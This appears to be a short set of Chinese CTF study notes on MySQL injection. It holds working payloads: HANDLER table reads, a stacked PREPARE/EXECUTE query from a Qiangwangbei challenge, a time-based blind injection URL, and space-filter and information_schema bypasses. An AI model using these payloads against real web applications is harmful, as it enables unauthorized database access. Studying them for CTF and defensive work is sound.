 ## handler
handler，这个语句可以一行一行显示库中内容
```sql
handler user open;
handler user read;读出什么输出什么

handler user read first [where username=‘admin’];
handler user read next [where username=‘admin’]; – [] 中的内容意味着可加可不加
```

>需要先open才能read

## prepare 预处理
### 强网杯 随便注
#sql-prepare
```sql
1';PREPARE st from concat('s','elect', ' * from `1919810931114514` ');EXECUTE st;#
```


## 空格过滤
### 注释绕过
`/**/`是注释符，用注释替换空格
>`/*! ... */`在mysql中可执行
>`/*!50001 select * from test */; `这里的50001表示假如 数据库是5.00.01以上版本，该语句才会被推行

### 括号绕过
在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。
```sql
?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
```

### 特殊字符
```
%20 %09 %0a %0b %0c %0d %a0 %00
```

## 特殊表过滤

### information_schema
- sys.schema_table_statistics_with_buffer
- sys.x$schema_flattened_keys
